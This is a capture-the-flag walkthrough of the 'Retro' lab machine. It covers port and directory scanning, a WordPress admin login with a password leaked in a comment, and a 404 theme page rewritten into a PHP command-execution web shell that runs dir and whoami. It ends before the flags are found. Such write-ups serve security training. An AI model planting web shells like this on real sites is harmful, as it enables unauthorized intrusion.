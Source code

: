 | A write-up on Retro | By Herman Detwiler | 8/6/22

# Recon
prompt: *here are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version Blaster.*

## Nmap
Going to start by enumerating open ports with Nmap 
```
PORT     STATE SERVICE       REASON  VERSION
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-06T05:01:37+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-05T04:59:27
| Not valid after:  2022-02-04T04:59:27
| MD5:   5407 8320 ca7a 1650 d76e dc07 58a2 98f5
| SHA-1: a554 f5c1 2d2c 3a2e d097 312a 7eeb 0daa 2be5 f7c0
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQawanPWJIgrREnUqg1NstqjANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMTA4MDUwNDU5MjdaFw0yMjAyMDQwNDU5
| MjdaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEA1uReS6MpKJDO9SQ1vjO9MrMi3ckyjwCEIIbq6+XF7gMGxKzk9AV4
| 06qaVvykQDkPwXxzqpCu1nHzTeP8hmLFQF2xgoizxs+lhJ0CiQlVJqyYMz4gYZqE
| A24cCoBmFh7jlE+r3Z/+nvr1qM1w5QClQY0uRLb6nDPz1E/e+d2vEij4+M9ojg9+
| Uk7XlJ8VYxitzQd4hK+65j2HG0o2vrE9Q3P5NGZIb8BtJYQXhetZLmDE7tb2J0pI
| l6rZOBZTAh0L+ntImjTosSUtTMacWjU+1dY10CoiKA/WloQ4aRRxCrq34fkBdRNX
| RDB/OYTfKRRpMhs/sOey57gqnOSdmh0LbwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAIju80JspY99
| 85zvjttaoihm9siU11ldiCqLN17YDwGlTbTamjz+PCVlb1Ztjh4URLIaMbZI/4HP
| ZUNmqnheLnBeYVz4ouPHRFIirfIB8bIDXGEeVOZhmJ/WNzVFpSfghASnrW2jNI/9
| /hhrnl4CuajFMLqB2Gh+/wGy0dPnadB+63BX1OVetnh1pFyUtqC9JnuQSaOf5Xmf
| NhcfCgF/gMS5fwdzQTq8id/njDRvFMaNOj4o9PxaMMhMjewtfNjTm5PVsvR8dUMm
| 4PKs2JMVgNNxasPiODWe8mQm8TN6d6J6tFhZiMKhoeCrfawwKCA359U9Wkl/Q1Od
| Wie2tv5J4oc=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-08-06T05:01:38+00:00; +1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Finding that there is a webserver and port 80, I check it in my browser and start a gobuster scan to enumerate while checking out the other open port with a service called ms-wbt-server syn-ack Microsoft Terminal services, which has a high probabilty of my way into the network. 

## Gobuster

`gobuster dir -u http://10.10.36.164 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt`

```===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.36.164
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/06 01:12:23 Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 149] [--> http://10.10.36.164/retro/]
```
Checking out /retro I get a pretty sweet retro gaming blog being hosted, I start pulling out some potentially useful info, while throwing the /retro sub domain back into gobuster to keep some scanning going on while I work at poking around the website more.

![image](https://user-images.githubusercontent.com/83407557/128460426-35865e35-e121-4bb7-8a5b-71cb8fdd8b6e.png)

*Clicking on account Wade I am able to get some potential password leakage in a comment*

![image](https://user-images.githubusercontent.com/83407557/128460933-e2e8b439-bb26-417c-9df2-a839baadb2f8.png)

*The comment did contain a password, and we login as admin to this wordpress site*

also find Wade's company Email: darkstar@darkstar7471.com

One of the places you can upload php on a wordpress site is in their "Themes" feature, in there I find a theme that is a php file that gets loaded on any 404 error.

![image](https://user-images.githubusercontent.com/83407557/128466978-781eb853-b5f8-477a-9ef6-8db90e05c8b4.png)

I remove the stuff that isn't usefull to me and add my own spin on the 404.

![image](https://user-images.githubusercontent.com/83407557/128467501-7ab734d8-4ec4-4cf4-9ad9-5f9e459db2f3.png)

Then, by going to a page on /retro's index.php that I know (or am like 99% sure) doesn't exist, I get my much better 404 error:

![image](https://user-images.githubusercontent.com/83407557/128468198-3a6dc292-ef76-4ce1-a67f-28d36edbce10.png)

Then goal is to make the 404 actually return a reverse shell, since I know this is a windows machine let's see if I can get some more info.

```php
<?php echo `dir`;?>
```

```
Volume in drive C has no label. Volume Serial Number is 7443-948C Directory of C:\inetpub\wwwroot\retro 12/08/2019 05:02 PM
. 12/08/2019 05:02 PM
.. 05/30/2019 02:55 AM 420 index.php 05/30/2019 02:55 AM 19,935 license.txt 05/30/2019 02:55 AM 7,447 readme.html 05/30/2019 02:55 AM 6,919 wp-activate.php 12/08/2019 05:02 PM
wp-admin 05/30/2019 02:55 AM 369 wp-blog-header.php 05/30/2019 02:55 AM 2,283 wp-comments-post.php 05/30/2019 05:17 AM 2,853 wp-config-sample.php 12/08/2019 06:31 PM 2,849 wp-config.php 12/08/2019 06:31 PM
wp-content 05/30/2019 02:55 AM 3,847 wp-cron.php 12/08/2019 05:02 PM
wp-includes 05/30/2019 02:55 AM 2,502 wp-links-opml.php 05/30/2019 02:55 AM 3,306 wp-load.php 05/30/2019 02:55 AM 39,574 wp-login.php 05/30/2019 02:55 AM 8,403 wp-mail.php 05/30/2019 02:55 AM 18,962 wp-settings.php 05/30/2019 02:55 AM 31,085 wp-signup.php 05/30/2019 02:55 AM 4,764 wp-trackback.php 05/30/2019 02:55 AM 3,068 xmlrpc.php 17 File(s) 158,586 bytes 5 Dir(s) 30,425,051,136 bytes free 
```
```php
<?php echo `dir ..\`;?>
```

```
Volume in drive C has no label. Volume Serial Number is 7443-948C Directory of C:\inetpub\wwwroot 12/08/2019 05:02 PM
. 12/08/2019 05:02 PM
.. 12/08/2019 04:52 PM 703 iisstart.htm 12/08/2019 04:52 PM 99,710 iisstart.png 12/08/2019 05:02 PM
retro 2 File(s) 100,413 bytes 3 Dir(s) 30,425,051,136 bytes free 
```
**note, going back farther throws and error**

```php
<?php echo `whoami`;?>
```
```
nt authority\iusr 
```



# Questions

1. A web server is running on the target. What is the hidden directory which the website lives on?

2. what is the user.txt

3. what is the root.txt
